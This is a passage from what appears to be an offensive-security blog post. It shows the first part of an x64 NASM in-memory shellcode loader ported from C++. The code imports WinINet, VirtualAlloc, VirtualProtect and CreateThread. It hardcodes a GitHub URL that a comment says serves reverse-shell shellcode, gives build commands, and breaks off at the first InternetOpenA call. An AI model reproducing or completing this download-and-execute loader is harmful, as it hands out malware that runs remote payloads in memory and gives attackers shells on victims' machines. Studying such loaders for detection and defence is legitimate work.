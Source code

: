 Converting the C++ in-memory shellcode loader to x64 Assembly
-

We're going to start with our nasm x64 assembly code to represent the base skeleton for our in memory shellcode download and execute functionality.  The code below uses externs to give you a nice overview for how this will play out.  Once again, our aim here is to reproduce the previously captured C++ in memory shellcode loader with an x64 assembly version.  I'm not going to go over all the code in great detail as I have a lot of ground to cover in today's post.  But, I do plan to explain this and more in my upcoming Shellcode video series where I teach you how to write x64 Assembly / Shellcode step by step.  It will go way beyond even what I covered on my blog.  Stay Tuned! 

Okay here's the code for Phase 1 of our in-memory shellcode loader.  I'll add comments throughout:

```nasm
bits 64
extern GetLastError
extern InternetOpenA
extern memcpy
extern RtlMoveMemory
extern InternetOpenUrlA
extern InternetReadFile
extern InternetCloseHandle
extern CloseHandle
extern ExitProcess
extern VirtualAlloc
extern VirtualFree
extern VirtualProtect
extern CreateThread
extern WaitForSingleObject

;nasm -f win64 [downloader.asm]
;x86_64-w64-mingw32-gcc downloader.obj -o downloader.exe -lwininet -lkernel32

section .data
    agent db "Mozilla/5.0",0

    ; this linked file below contains our reverse shell shellcode, also PIC friendly
    ;***********************************************************************
    url   db "https://github.com/g3tsyst3m/undertheradar/raw/refs/heads/main/reg.dyno",0

;These are uninitialized variables that will get populated later
;***************************************************************
section .bss
hInternet  resq 1
hUrl       resq 1
hThread    resq 1
mem_buffer resq 1
oldProtect resd 1
bytesRead  resd 1
totalBytes resd 1
chunk      resb 4096

section .text
global main
main:
    sub rsp, 0x28
    and rsp, 0xFFFFFFFFFFFFFFF0

    ; ---- InternetOpenA ----
    ; initiate a handle to begin preparing for our URL

    lea rcx, [rel agent]     ; lpszAgent
    mov edx, 1               ; INTERNET_OPEN_TYPE_DIRECT
    xor r8, r8               ; lpszProxy
    xor r9, r9               ; lpszProxyBypass
```
